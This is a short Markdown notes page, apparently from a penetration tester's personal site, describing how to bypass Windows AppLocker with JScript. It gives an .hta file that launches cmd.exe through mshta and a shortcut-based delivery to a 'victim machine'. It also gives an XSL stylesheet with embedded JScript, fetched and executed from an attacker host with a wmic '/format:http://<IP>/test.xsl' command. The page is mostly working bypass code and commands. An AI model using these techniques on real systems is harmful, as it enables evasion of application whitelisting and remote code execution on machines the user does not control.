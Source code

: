 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_JScript
---
```



<span style="font-size: 35px; color:red"><b>Applocker Bypass with JScript</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>MSHTA</b></span>
We'll abuse <span style="color:red">Microsoft HTML Applications</span> (MSHTA) running an .hta file.

Simple hta file:
```hta
<html> 
<head> 
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head> 
<body>
<script language="JScript">
self.close();
</script>
</body> 
</html>
```

To run it:
```shell
mshta C:\Tools\test.hta
```

To deliver it, you can createa shortcut. To create the shortcut file, we'll right-click the desktop on the Windows 10 victim machine and navigate to _New_ -> _Shortcut_. In the new window, we'll enter the MSHTA executable path <span style="color:red">(C:\Windows\System32\mshta.exe)</span> followed by the URL of the .hta file on our Kali machine
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>XSL Transform</b></span>
The process of XSLT uses <span style="color:red">Extensible Stylesheet Language</span> (.xsl) documents to transform an XML document into a different format such as <span style="color:red">XHTML</span>.
XSL file (test.xsl):
```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell"); 'payload here
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

Download and run like so:
```shell
wmic process get brief /format:"http://<IP>/test.xsl"
```
